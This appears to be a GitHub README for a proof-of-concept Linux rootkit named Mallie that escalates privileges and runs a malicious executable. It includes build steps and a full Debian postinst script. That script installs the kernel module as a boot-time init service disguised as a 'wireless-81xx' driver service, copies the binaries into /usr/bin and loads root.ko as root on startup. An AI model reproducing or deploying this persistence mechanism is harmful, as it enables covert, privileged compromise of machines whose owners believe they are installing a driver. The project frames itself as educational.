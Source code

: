 # Mallie
A Proof-Of-Concept sample linux rootkit that escalates privilleges for a malicious executable, and launches the malicious executable in user space using usermodehelper.

## TODO
- More features for the rootkit, e.g., hide itself from lsmod .etc
- Use to serve functions for another executable

## Build Instructions
This project is still a work-in-progress, but if you'd like to try it out, feel free to do so.

1. Simply clone the project and make it: ```cd mallie && make```
2. Two files will be created: ```root.ko``` and ```mallie (an ELF executable)```

## Resources
- Create deb package: https://www.internalpointers.com/post/build-binary-deb-package-practical-guide
- Make install script in the deb package using DEBIAN/preinstall same as the DEBIAN/control file

## Auto-Start on Boot Script
1) chmod 755 to the postinst script.

2) Once that is done create a symbolic link in the run level directory you would like to use, for example if you wanted to run a program in the graphical runlevel 2, the default runlevel for Ubuntu, you would place it in the /etc/rc2.d directory. You just cannot place it the directory, you must signify when it will run by indicating the startup with an “S” and the execution order is important. Place it after everything else that is in the directory by giving it a higher number. If the last script to be run is rc.local and it is named S99rc.local then you need to add your script as S99myscript. Symbolic link: `ln -s /etc/init.d/myscript /etc/rc3.d/S99myscript`

```bash

#!/bin/bash
# This `DEBIAN/postinst` script is run post-installation

echo '#!/bin/bash' > /etc/init.d/wireless-81xx
echo '
### BEGIN INIT INFO
# Provides:          mallie
# Required-Start:    $local_fs $network
# Required-Stop:     $local_fs
# Default-Start:     2 3 4 5
# Default-Stop:      0 1 6
# Short-Description: Wireless service
# Description: Autostart wireless drivers
### END INIT INFO

# Carry out specific functions when asked to by the system
case "$1" in
  start)
    echo "Starting..."
    su - root -c "cd /usr/bin/ && insmod ./root.ko"
    ;;
  stop)
    echo "Stopping..."
    sleep 2
    ;;
  *)
    echo "Usage: /etc/init.d/wireless-81xx {start|stop}"
    exit 1
    ;;
esac

exit 0 ' >> /etc/init.d/wireless-81xx

chmod 755 /etc/init.d/wireless-81xx
cp /usr/local/bin/mallie /usr/bin/
cp /usr/local/bin/root.ko /usr/bin/
ln -s /etc/init.d/wireless-81xx /etc/rc3.d/S01wireless-81xx
sh /etc/init.d/wireless-81xx start

```

/etc/init.d/wireless-81xx
```bash
#! /bin/bash

### BEGIN INIT INFO
# Provides:          mallie
# Required-Start:    $local_fs $network
# Required-Stop:     $local_fs
# Default-Start:     2 3 4 5
# Default-Stop:      0 1 6
# Short-Description: Wireless service
# Description: Autostart wireless drivers
### END INIT INFO

# Carry out specific functions when asked to by the system
case "$1" in
  start)
    echo "Starting..."
    su - root -c "cd /usr/bin/ && insmod ./root.ko"
    ;;
  stop)
    echo "Stopping..."
    sleep 2
    ;;
  *)
    echo "Usage: /etc/init.d/wireless-81xx {start|stop}"
    exit 1
    ;;
esac

exit 0

```

## Disclaimer

This is purely for educational purposes. The software is provided "as is" and the authors are not responsible for any damage or mishaps that may occur during its use. Misuse of the provided software and information may result in criminal charges.

## Credits
https://askubuntu.com/questions/290099/how-to-run-a-script-during-boot-as-root <br>
https://gist.github.com/drmalex07/298ab26c06ecf401f66c <br>
https://github.com/xcellerator/linux_kernel_hacking
https://github.com/zizzu0/LinuxKernelModules/blob/main/FindKallsymsLookupName.c
